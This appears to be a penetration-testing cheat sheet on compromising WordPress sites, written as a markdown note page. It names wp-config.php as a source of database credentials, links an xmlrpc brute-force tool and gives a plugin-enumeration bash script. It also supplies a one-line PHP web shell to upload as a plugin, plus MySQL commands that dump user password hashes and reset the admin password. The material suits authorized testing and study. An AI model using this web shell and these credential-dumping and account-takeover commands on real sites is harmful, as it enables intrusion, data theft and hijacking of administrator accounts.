

# Wordpress

## Basic Information

### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

## Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

## Plugin RCE

### PHP Plugin

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><figcaption></figcaption></figure>

Access it to see the link:

<figure><figcaption></figcaption></figure>

## Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```

